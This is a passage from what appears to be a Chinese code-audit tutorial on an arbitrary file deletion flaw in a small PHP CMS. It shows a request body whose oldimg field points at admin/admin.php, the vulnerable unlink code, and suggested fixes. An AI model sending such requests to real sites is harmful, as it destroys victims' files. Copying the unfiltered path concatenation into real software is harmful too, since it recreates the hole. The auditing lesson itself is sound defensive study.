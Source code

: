```
Accept-Language: zh-CN,zh;q=0.9
Cookie: bdshare_firstime=1518262531074; 
PHPSESSID=jpeu0l4983924s20f6bk0ktkl0;
Connection: close
adv=tettste&advlink=/zt/show.php?id=1&company=测试
&img=test&oldimg=admin/admin.php&Submit3=%E5%8F%91%E5%B8%83
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7F15r4KFQESg4w0KwnBst32076YUVsAicgA5ochlrt9JpdhLniaoFD8t3TUW09wywkHTuiaTBWndUicHg/640?wx_fmt=png&from=appmsg "")  
  
  
同样的漏洞发生在"/user/licence_save.php"30 多行处。  
```
# "/user/licence_save.php"文件
// 假设这是第30行附近的代码
$f = "../" . $oldimg; // 直接拼接路径，未过滤.和/字符
if ($img != $oldimg && $action == "modify") {
    // 执行删除操作
    unlink($f); // 删除文件
}
```  
  
  
安全性改进措施  
  
路径清理：通过safePath函数移除路径中的"../"和"./"，防止路径遍历。  
  
输入验证：验证oldimg变量的内容，确保它不包含可能导致安全问题的字符。  
  
权限检查：在执行删除操作之前，检查目标文件是否在允许的目录内，确保不会删除或访问到不应该被操作的文件。  
  
通过这些改进，我们可以显著降低跨目录文件删除的风险，并提高应用程序的安全性。  
  
#### 结束语  
  
      当然，大家也可以使用其他的审计工具进行辅助，只要适合自己，有利于审计即可。虽然这是一个小 cms，但是对于代码审计的新手来说，就是要多读、多看、多想。审计小 cms 的过程，就是在积累经验的过程，更是对我们将来审计大型框架进行铺垫。然后多看看网络上代码审计的案例，最重要的，还要自己动手审计一遍，希望这些技巧能够对你学习代码审计有所帮助。  
  
